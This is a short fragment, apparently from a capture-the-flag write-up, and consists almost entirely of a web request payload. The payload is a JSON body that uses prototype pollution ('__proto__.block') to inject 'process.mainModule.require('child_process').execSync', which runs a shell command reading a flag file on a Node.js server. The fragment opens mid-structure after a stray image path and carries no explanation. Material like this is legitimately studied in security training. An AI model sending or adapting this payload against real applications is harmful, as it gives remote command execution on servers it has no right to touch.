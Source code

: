 ```http
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync('mkdir $(cat flagtZ1pK)')"
    },
"artist.name":"Haigh"
}
```
